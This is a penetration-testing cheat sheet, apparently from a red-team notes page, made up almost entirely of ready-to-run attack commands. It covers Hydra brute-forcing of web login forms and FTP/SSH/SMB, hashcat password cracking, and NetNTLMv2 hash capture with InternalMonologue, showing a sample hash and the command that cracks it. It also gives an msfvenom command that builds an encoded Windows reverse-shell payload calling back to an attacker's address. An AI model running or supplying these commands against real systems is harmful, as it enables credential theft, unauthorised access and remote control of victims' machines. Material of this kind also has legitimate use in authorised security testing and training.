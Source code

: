 ```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### Cracking Common Protocols with Hydra <a id="cracking-common-protocols-with-hydra"></a>

```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### HashCat Cracking <a id="hashcat-cracking"></a>

```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

​# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout​

# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000​

# crack with hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

### Generating Payload with msfvenom <a id="generating-payload-with-msfvenom"></a>

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux <a id="compiling-code-from-linux"></a>

```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

​# Linux
gcc -m32|-m64 -o output source.c
```
